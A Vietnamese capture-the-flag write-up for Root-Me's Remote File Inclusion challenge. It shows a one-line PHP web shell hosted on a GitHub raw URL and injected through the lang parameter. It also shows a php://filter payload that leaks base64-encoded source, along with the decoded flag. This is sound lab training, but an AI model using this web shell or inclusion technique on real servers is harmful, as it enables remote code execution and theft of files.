 # [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

## Solutions

Quan sát thấy

- query parameter `?lang=en` thì có gọi hàm include file `en_lang.php`
- không sử dụng null byte được

Tạo một file có tên `a_lang.php` trên github, lấy link raw: `https://raw.githubusercontent.com/hoanghailongvn/test/main/a_lang.php` với nội dung:

```php
<?php
 system($_GET['command']);
?>
```

=> query: `?lang=https://raw.githubusercontent.com/hoanghailongvn/test/main/a`

- Lỗi: `Warning: system() has been disabled for security reasons in https://raw.githubusercontent.com/hoanghailongvn/test/main/a_lang.php on line 2`

Thay đổi nội dung file `a_lang.php`:

```php
<?php
 include('php://filter/convert.base64-encode/resource=index.php');
?>
```

Base64 decode sẽ lấy được nội dung file index.php:

```bash
┌──(kali㉿kali)-[~/Documents/test]
└─$ echo 'PD9waHAKCi8qCgpDb25ncmF0eiEKCkxlIG1vdCBkZSBwYXNzZSBkZSB2YWxpZGF0aW9uIGVzdCA6IApUaGUgdmFsaWRhdGlvbiBwYXNzd29yZCBpcyA6IAoKUjNtMHQzX2lTX3IzYUwxeV8zdjFsCgoqLwoKJGxhbmd1YWdlPSJlbiI7Cml
mICggaXNzZXQoJF9HRVRbImxhbmciXSkgKXsKICAgICRsYW5ndWFnZSA9ICRfR0VUWyJsYW5nIl07Cn0KaW5jbHVkZSgkbGFuZ3VhZ2UuIl9sYW5nLnBocCIpOwo/PgoKPGh0bWw+CjxoZWFkPjx0aXRsZT5SZW1vdGUgRmlsZSBJbmNsdXNpb248L3Rp
dGxlPjwvaGVhZD4KCjxib2R5PgoKPGgzPgogICAgPD9waHAgZWNobyAkbGFuZ1snbGFuZyddOyA/PiA6IAogICAgPGEgaHJlZj0iP2xhbmc9ZnIiIHN0eWxlPSJ0ZXh0LWRlY29yYXRpb246PD9waHAgKCRsYW5ndWFnZT09ImZyIik/cHJpbnQgInVuZ
GVybGluZSI6cHJpbnQgIm5vbmUiOyA/PiI+RnJhbsOnYWlzPC9hPgogICAgJm5ic3A7fCZuYnNwOwogICAgPGEgaHJlZj0iP2xhbmc9ZW4iIHN0eWxlPSJ0ZXh0LWRlY29yYXRpb246PD9waHAgKCRsYW5ndWFnZT09ImVuIik/cHJpbnQgInVuZGVybG
luZSI6cHJpbnQgIm5vbmUiOyA/PiI+RW5nbGlzaDwvYT4KPC9oMz4KCjxwPjw/cGhwIGVjaG8gJGxhbmdbIndlbGNvbWUiXTsgPz48L3A+Cgo8L2JvZHk+CjwvaHRtbD4K' | base64 -d
<?php

/*

Congratz!

Le mot de passe de validation est : 
The validation password is : 

R3m0t3_iS_r3aL1y_3v1l

*/

$language="en";
if ( isset($_GET["lang"]) ){
    $language = $_GET["lang"];
}
include($language."_lang.php");
?>

<html>
<head><title>Remote File Inclusion</title></head>
...
```

Flag: `R3m0t3_iS_r3aL1y_3v1l`
